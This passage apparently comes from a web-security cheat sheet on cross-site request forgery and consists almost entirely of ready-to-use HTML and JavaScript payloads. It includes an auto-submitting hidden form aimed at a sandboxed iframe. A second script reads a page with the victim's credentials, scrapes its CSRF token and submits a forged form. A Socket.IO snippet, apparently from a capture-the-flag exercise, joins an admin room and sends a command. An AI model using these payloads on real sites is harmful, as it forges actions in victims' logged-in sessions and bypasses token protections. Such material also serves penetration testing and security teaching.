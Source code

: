 ```markup

<iframe id="frame2" name="frame2" 
sandbox="allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation"
height="600" width="800"></iframe>
<body onload="document.forms[0].submit()">
<form id="bypass" name"bypass" method="POST" target="frame2" action="http://google.com?param=VALUE" enctype="multipart/form-data">
  <input type="text" name="username" value="z">
  <input type="checkbox" name="status" checked="">        
  <input id="token" type="hidden" name="token" value="0000" />
  <button type="submit">Submit</button>
</form>
```

### **POSTSteal CSRF token with Ajax and send a post with a form**

```markup
<body onload="getData()">

<form id="form" action="http://google.com?param=VALUE" method="POST" enctype="multipart/form-data">
  <input type="hidden" name="username" value="root"/>
  <input type="hidden" name="status" value="on"/>
  <input type="hidden" id="findtoken" name="token" value=""/>
  <input type="submit" value="valider"/>
</form>

<script>
var x = new XMLHttpRequest();
function getData() {
  x.withCredentials = true;
  x.open("GET","http://google.com?param=VALUE",true);
  x.send(null); 
}
x.onreadystatechange = function() {
  if (x.readyState == XMLHttpRequest.DONE) {
    var token = x.responseText.match(/name="token" value="(.+)"/)[1];
    document.getElementById("findtoken").value = token;
    document.getElementById("form").submit();
  }
}
</script>
```

### CSRF with Socket.IO

```markup
<script src="https://cdn.jsdelivr.net/npm/socket.io-client@2/dist/socket.io.js"></script>
<script>
let socket = io('http://six.jh2i.com:50022/test');

const username = 'admin'

socket.on('connect', () => {
    console.log('connected!');
    socket.emit('join', {
        room: username
    });
  socket.emit('my_room_event', {
      data: '!flag',
      room: username
  })

});
```